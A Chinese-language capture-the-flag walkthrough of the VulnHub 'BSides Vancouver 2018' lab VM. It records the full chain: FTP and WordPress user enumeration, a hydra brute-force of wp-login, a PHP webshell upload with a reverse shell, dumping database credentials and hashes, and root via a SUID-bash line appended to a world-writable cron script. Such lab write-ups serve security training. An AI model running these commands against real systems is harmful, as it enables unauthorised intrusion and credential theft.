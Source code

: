 # BSides Vancouver: 2018 (Workshop)

2024-5-17 https://vulnhub.com/entry/bsides-vancouver-2018-workshop,231/

difficulty: Intermediate

## IP

192.168.5.28

## Scan

Open Port -> 21,22,80

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Mar 03  2018 public
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.5.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 859f8b5844973398ee98b0c185603c41 (DSA)
|   2048 cf1a04e17ba3cd2bd1af7db330e0a09d (RSA)
|_  256 97e5287a314d0a89b2b02581d536634c (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry
|_/backup_wordpress
|_http-server-header: Apache/2.2.22 (Ubuntu)
```

先看看 21 端口的 ftp 在匿名登陆下，有什么提示信息:

```
ftp> ls
229 Entering Extended Passive Mode (|||18551|).
150 Here comes the directory listing.
drwxr-xr-x    2 65534    65534        4096 Mar 03  2018 public
226 Directory send OK.
ftp> cd public
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||7531|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0              31 Mar 03  2018 users.txt.bk
226 Directory send OK.
ftp> get users.txt.bk -
remote: users.txt.bk
229 Entering Extended Passive Mode (|||34422|).
150 Opening BINARY mode data connection for users.txt.bk (31 bytes).
abatchy
john
mai
anne
doomguy
```

得到了几个用户名，可能跟 80 端口的 web 有关系，继续看 80 端口的 web 服务。

信息侦察，尝试进行目录扫描：

```
gobuster dir -u http://192.168.5.28/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip -e

/index                (Status: 200) [Size: 177]
/robots               (Status: 200) [Size: 43]
/robots.txt           (Status: 200) [Size: 43]
/server-status        (Status: 403) [Size: 293]
```

看看 /robots.txt 有什么信息：

```
User-agent: *
Disallow: /backup_wordpress
```

访问隐藏目录 /backup_wordpress，看到了 wp 的网站。

使用 wpscan 搜集用户名：

```
wpscan --url http://192.168.5.28/backup_wordpress -e u

[+] john
[+] admin
```

找到 2 个 wp 用户名。

使用 cewl 进行密码搜集：

```
cewl -d 5 http://192.168.5.28/backup_wordpress -w pass.txt
```

```
wpscan --url http://192.168.5.28/backup_wordpress -U user.txt -P pass.txt -t 10
```

没有找到相关用户凭据，是否是 passwd 密码字典内容太少，尝试使用 rockyou 进行爆破。

```
hydra -t 20 -L users.txt -P ~/tools/dict/rockyou.txt 192.168.5.28 -f http-post-form "/backup_wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fbackup_wordpress%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username"

[80][http-post-form] host: 192.168.5.28   login: john   password: enigma
```

得到用户凭证：john:enigma，登陆 wp 管理后台。

写入 webshell，在 http://192.168.5.28/backup_wordpress/wp-admin/theme-install.php 中上传 theme 对应的 php 脚本代码，对应的访问地址为 http://192.168.5.28/backup_wordpress/wp-content/uploads/2024/05/8888.php，在kali中监听8888端口，得到了反弹的shell。

先查看到 wp 的数据库配置信息：

```
/var/www/backup_wordpress$ cat wp-config.php

define('DB_NAME', 'wp');
define('DB_USER', 'john@localhost');
define('DB_PASSWORD', 'thiscannotbeit');
define('DB_HOST', 'localhost');
```

得到数据库中的用户信息：

```
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url | user_registered     |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+
|  1 | admin      | $P$BmuGRQyHFjh1FW29/KN6GvfYnwIl/O0 | admin         | admin@thissite.com |          | 2018-03-07 20:05:07 |
|  2 | john       | $P$BVlPsus0zgh1RoU3VGUI4zfyNNPcyT0 | john          | john@thissite.com  |          | 2018-03-07 20:06:16 |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+
```

得不到 admin 的哈希对应的明文密码。

/home 目录下发现了几个用户：

```
abatchy
john
mai
anne
doomguy
```

经过查看，没有发现什么有价值的信息。

看看 crontab，发现了重要信息：

```
www-data@bsides2018:/home/abatchy$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /usr/local/bin/cleanup

www-data@bsides2018:/home/abatchy$ ls -al /usr/local/bin/cleanup
-rwxrwxrwx 1 root root 64 Mar  3  2018 /usr/local/bin/cleanup
```

root 用户每分钟调用/usr/local/bin/cleanup ，并且我们对这个脚本有完全的用户权限，将我们的后门代码直接写入其中：

```
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' >> /usr/local/bin/cleanup
```

等待 1 分钟后，得到了 suid 的 bash，执行后得到了 root 权限的 shell：

```
www-data@bsides2018:/tmp$ /tmp/rootbash -p
rootbash-4.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
rootbash-4.2# cd /root
rootbash-4.2# cat flag.txt
Congratulations!

If you can read this, that means you were able to obtain root permissions on this VM.
You should be proud!

There are multiple ways to gain access remotely, as well as for privilege escalation.
Did you find them all?

@abatchy17
```
